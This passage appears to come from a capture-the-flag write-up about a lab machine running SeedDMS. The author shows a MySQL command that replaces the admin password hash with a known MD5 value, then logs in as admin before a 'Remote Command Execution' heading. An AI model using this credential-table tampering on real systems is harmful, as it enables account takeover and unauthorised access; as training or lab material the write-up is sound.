 I tried to log in as user **saket** on the web page but it was unsuccessfull, then I was not possible try to crack the MD5 hash, so I decided to update the password hash for another one.


```console
MySQL [seeddms]> update tblUsers set pwd = md5('hackm3') where id = 1;
Query OK, 1 row affected (0.093 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [seeddms]> select id,login,pwd from tblUsers;
+----+-------+----------------------------------+
| id | login | pwd                              |
+----+-------+----------------------------------+
|  1 | admin | 943ba3c219cc4dd8ef157a925f738a73 |
|  2 | guest | NULL                             |
+----+-------+----------------------------------+
2 rows in set (0.003 sec)
```

## Exploitation
### Remote Command Execution

So I was able to log in as **admin** to the web application.

![](/assets/images/hackmeplease/screenshot-3.png)
